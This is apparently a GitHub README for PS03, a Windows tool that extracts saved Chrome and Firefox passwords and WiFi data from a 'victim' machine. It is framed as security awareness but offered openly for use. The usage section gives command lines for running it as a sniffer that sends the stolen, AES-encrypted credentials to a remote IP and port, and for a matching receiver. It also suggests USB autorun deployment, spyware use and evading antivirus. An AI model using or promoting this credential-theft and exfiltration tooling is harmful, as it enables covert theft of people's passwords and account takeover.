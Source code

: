 # PS03

PS03 is a project which goal is to set more focus on security. Stop saving your passwords in chrome, firefox, don't automaticly connect to WiFi's and so on. This project shows how easy an attacker can get all your passwords ever saved, even without any anti-virus complaining. 

  

![ServersideScreenshot](https://github.com/benlarsendk/PS03/blob/master/screenshot.PNG "Screenshot of serverside")
The above shown screenshot, is the output as seen from serverside.

### Usage
The software is made as both the receiving end as well as the victimside end. It's therefore required to configure the program at startup, such that it does as expected. This software could be used on a USB-stick with autorun capabilities to extract passwordsinformation from a victim. It is also possible to use it as spyware and let the program send the data (AES-encrypted) back to a host.

To configure the program as a sniffer that transmits to a server:
```sh
$ PS03.exe -t -i [ip] -p [port]
```

To configure the program as a serverside receiver:
```sh
$ PS03.exe -r -p [port]
```

If wanted, the program can function without any network communication. To configure the program to run locally
```sh
$ PS03.exe -v
```
The -v (verbose) command can also be used alongside networking to generate report and show output on victimside.
### Credits

PS03 uses code and inspiration from the following authors:

* [DPAPI] - For decrypting Chrome passwords
* [Mark Brittingham] - For simple AES encryption of data
* [SQLite] - For reading the Google Chrome Login Data file
* [3V1L] - For supplying some of the code for decrypting firefox passwords and username.


### Development

Want to contribute? Please do so. 
If you find an issue, please create it as an issue, and if you want you can fix it and make a pullrequest.

### Version

3.2.0

**CHANGELOG**
3.2.0
- Merged all solutions in to a single solution and added commandline parameters

3.1.0
- PS03 can now handle Firefox user profiles. Tested on Firefox version 43.0.1.
- PS03 Generates a report file with most common passwords. This is still in pre-alpha


3.0.2
- Fixed crashes when victim doesn't use chrome or have WLAN
- Fixed send timeout at victimside to exit quietly instead of crash
- General cleanup

   [DPAPI]: <http://www.obviex.com/samples/dpapi.aspx>
   [Mark Brittingham]: <http://stackoverflow.com/questions/165808/simple-two-way-encryption-for-c-sharp>
   [SQLite]: <https://www.sqlite.org/>
   [3V1L]: <http://xakfor.net/threads/c-firefox-36-password-cookie-recovery.12192/>
   

